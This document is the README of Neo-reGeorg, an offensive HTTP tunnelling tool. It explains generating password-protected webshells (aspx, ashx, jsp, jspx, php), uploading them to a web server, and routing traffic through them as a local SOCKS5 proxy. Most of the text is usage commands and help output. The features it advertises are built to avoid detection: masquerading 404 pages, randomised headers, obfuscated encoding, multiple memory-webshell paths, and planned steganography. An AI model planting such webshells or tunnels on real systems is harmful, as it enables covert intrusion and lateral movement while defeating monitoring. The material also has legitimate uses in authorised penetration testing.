 Neo-reGeorg
=========

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** is a project designed to actively restructure [reGeorg](https://github.com/sensepost/reGeorg) with the aim of:

* Improve tunnel connection security
* Improve usability and avoid feature detection
* Improve the confidentiality of transmission content
* Solve the existing problems of reGeorg and fix some small bugs



Version
----

2.0.0 - [Change Log](CHANGELOG.md)


Features
----

* Transfer content through out-of-order base64 encryption
* GET request response can be customized (such as masquerading 404 pages)
* HTTP Headers instructions are randomly generated to avoid feature detection
* HTTP Headers can be customized
* Custom HTTP response code
* Multiple URLs random requests
* Server-node DNS resolution
* Compatible with python2 / python3
* High compatibility of the server environment
* Refer to [pivotnacci](https://github.com/blackarrowsec/pivotnacci) to implement a single `SESSION` to create multiple TCP connections to deal with some load balancing scenarios


Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests




Basic Usage
--------------

* **Step 1.**
Set the password to generate tunnel server.(aspx|ashx|jsp|jspx|php) and upload it to the web server.
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp

```

* **Step 2.**
Use `neoreg.py` to connect to the web server and create a socks5 proxy locally.
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```

   Note that if your tool, such as `nmap` does not support socks5 proxy, please use [proxychains](https://github.com/rofl0r/proxychains-ng) 




Advanced Usage
--------------

1. Support the generated server, by default directly requesting and responding to the specified page content (such as a disguised 404 page)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. For example, the server WEB needs to set the proxy to access
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. To set `Authorization`, there are also custom `Header` or `Cookie` content.
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. Need to disperse requests, upload to multiple paths, such as memory-webshell
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```

* For more information on performance and stability parameters, refer to -h help information
```ruby
# Generate server-side scripts
$ python neoreg.py generate -h
	usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]

	Generate neoreg webshell

	optional arguments:
	  -h, --help            show this help message and exit
	  -k KEY, --key KEY     Specify connection key.
	  -o DIR, --outdir DIR  Output directory.
	  -f FILE, --file FILE  Camouflage html page file
	  -c CODE, --httpcode CODE
							Specify HTTP response code. (default: 200)
	  --read-buff Bytes     Remote read buffer. (default: 513)

# Connection server
$ python neoreg.py -h
	usage: neoreg.py [-h] -u URI -k KEY [-l IP] [-p PORT] [-s] [-H LINE] [-c LINE]
					 [-x LINE] [--local-dns] [--read-buff Bytes]
					 [--read-interval MS] [--max-threads N] [-v]

	Socks server for Neoreg HTTP(s) tunneller. DEBUG MODE: -k
	(debug_all|debug_base64|debug_headers_key|debug_headers_values)

	optional arguments:
	  -h, --help            show this help message and exit
	  -u URI, --url URI     The url containing the tunnel script
	  -k KEY, --key KEY     Specify connection key
	  -l IP, --listen-on IP
							The default listening address.(default: 127.0.0.1)
	  -p PORT, --listen-port PORT
							The default listening port.(default: 1080)
	  -s, --skip            Skip usability testing
	  -H LINE, --header LINE
							Pass custom header LINE to server
	  -c LINE, --cookie LINE
							Custom init cookies
	  -x LINE, --proxy LINE
							proto://host[:port] Use proxy on given port
	  --local-dns           Local read buffer, max data to be sent per
							POST.(default: 2048 max: 2600)
	  --read-buff Bytes     Local read buffer, max data to be sent per
							POST.(default: 2048 max: 2600)
	  --read-interval MS    Read data interval in milliseconds.(default: 100)
	  --max-threads N       Proxy max threads.(default: 1000)
	  -v                    Increase verbosity level (use -vv or more for greater
							effect)
```



TODO
----

* HTTP body steganography

* Transfer Target field steganography



License
----

GPL 3.0
